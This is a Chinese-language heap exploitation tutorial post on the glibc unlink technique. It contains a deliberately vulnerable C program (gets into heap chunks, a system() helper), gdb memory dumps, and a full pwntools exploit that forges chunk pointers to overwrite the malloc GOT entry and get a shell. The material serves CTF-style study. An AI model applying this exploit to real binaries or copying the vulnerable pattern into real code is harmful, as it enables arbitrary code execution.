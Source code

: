 ﻿---
layout: post
title: heap教程(二)
excerpt: "heap教程之unlink和mmap"
categories: [未完待续]
comments: true
---

#### Unlink
非fastbinchunk在free的时候,会检查前后是否是freed,然后合并freed.

通过pre_size进入到前一个chunk,然后将这个chunk从它的double-link list中unlink,unlink操作如下
```c
#define unlink(P,BK,FD){
	FD = P ->fd;
	BK = P ->bk;
	if (FD->bk ! = P || BK -> fd != P)							//对前一个chunk进行检查,double link list指过去的那个chunk,是否指回来
		malloc_printerr (check_action,"corrupted d...",P);
	else{
		FD ->bk = BK;
		BK ->fd = FD;
	}
}
```
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	void *p = malloc(130);//非fastbin,大于120
	void *q = malloc(130);
	void *r = malloc(130);
	free(p);
	free(q);
}
```
overwrite heap pointer
```c
p ->fd =&p -0x18
p ->bk =&p -0x10
```
结果`p = &p - 0x18`,就是unlink操作让这个指针指向了它的前24个byte的地方

漏洞代码
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char* cmd;			//指针

void sh(char *c){
	system(c);
}

int main(){
	char* ptr[8];		//8个长度为8的指针
	int size,n;
	
	setvbuf(stdout,0,_IONBF,0);
	memset(ptr,0,sizeof(ptr));		//指针置零
	cmd = malloc(128);
	
	while(1){
		fgets(cmd,128,stdin);			//输入写到指针位置
		if (!strncmp(cmd,"add",3)){		//前三个字节是否是add
			printf("Index: ");
			scanf("%d",&n);				//将index值写入n
			if (n>=0 && n<8){
				printf("Size: ");
				scanf("%d%*c",&size);	//将size写入size
				ptr[n] = malloc(size);
				printf("Data: ");
				gets(ptr[n]);
				
			} else{
				puts("out of bound");
			}
		} else if (!strncmp(cmd,"remove",6)){
			printf("Index: ");
			scanf("%d%*c",&n);				//将index写入index
			if (n>=0 && n<8 && ptr[n]){
				puts(ptr[n]);
				free(ptr[n]);				//free掉那个chunk
				ptr[n] = 0;					//指针置零
				
			} else {
				puts("nothing here");
			}
		} else {
			puts("unknow command");
		}
	}
	return 0;
}
```

cmd处位置如下
```
gdb-peda$ x/6gx 0x602010
0x602010:	0x000a65766f6d6572	0x0000000000000000
0x602020:	0x0000000000601090	0x0000000000601098		(fd,bk)
```
查看fd指向的那个chunk,其中的bk是否指了回来
```
gdb-peda$ x/4gx 0x0000000000601090
0x601090 <stdout@@GLIBC_2.2.5>:	0x00007ffff7dd82a0	0x00007ffff7dd84e0
0x6010a0 <completed.6355>:	0x0000000000000000	0x0000000000602010
```
再查看bk指向的那个chunk,其中的fd是否指了回来
```
gdb-peda$ x/4gx 0x0000000000601098
0x601098 <stdin@@GLIBC_2.2.5>:	0x00007ffff7dd84e0	0x0000000000000000
0x6010a8 <cmd>:	0x0000000000602010	0x0000000000000000
```
发现此时可以满足unlink条件,unlink操作之后&p指向了它的前24个byte地址处,然后我们通过fget再次覆盖&p,使它指向malloc,其中malloc地址如下
```
gdb-peda$ x/4i 0x400780
   0x400780 <malloc@plt>:	jmp    QWORD PTR [rip+0x2008e2]        # 	
   0x400786 <malloc@plt+6>:	push   0xa
   0x40078b <malloc@plt+11>:	jmp    0x4006d0
```
fget地址
```
0x400750 <fgets@plt>:	jmp    QWORD PTR [rip+0x2008fa]        # 0x601050
   0x400756 <fgets@plt+6>:	push   0x7
   0x40075b <fgets@plt+11>:	jmp    0x4006d0
```
最终exp
```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']   #程序在在tmux中运行,

def add(index,size,data):
    p.sendline('add')
    p.recvuntil('Index: ')
    p.sendline(str(index))
    p.recvuntil('Size: ')
    p.sendline(str(size))
    p.recvuntil('Data: ')
    p.sendline(data)

def remove(index):
    p.sendline('remove')
    p.recvuntil('Index: ')
    p.sendline(str(index))
    p.recvline()

cmd = 0x600f48                  #指针位置,指向了buf
p = process('./unlinkmorty')
raw_input('#')
add(0,128,"A"*100)
add(1,128,"B"*100)
remove(0)
p.sendline("add\0AAAA"+p64(0)+p64(cmd-0x18)+p64(cmd-0x10))
p.recvuntil('Index: ')
p.sendline(str(2))
p.recvuntil('Size: ')
p.sendline(str(128))
p.recvuntil('Data: ')
p.sendline("C"*128+p64(272)+p64(0x90)+p64(0xafafafaf))     #padding+ pre_size + size + fd
remove(1)
p.sendline(p64(0x00007ffff7dd82a0)+p64(0x00007ffff7dd84e0)+p64(0)+p64(0x600f08))   #stdout,stdin,completed,&cmd     (0x600f08是malloc的前一个地址)
p.recvline()
p.sendline('add\0sh\0A'+p64(0x40086d))      #注意这里写了sh, 之后就是覆盖了malloc为sh
p.recvuntil('Index: ')
p.sendline(str(1))
p.recvuntil('Size: ')
p.sendline(str(int(0x600f0c)))          #这个就是sh的地址
p.interactive()
```


#### mmap和arena
size超过0x21000,会改用mmap
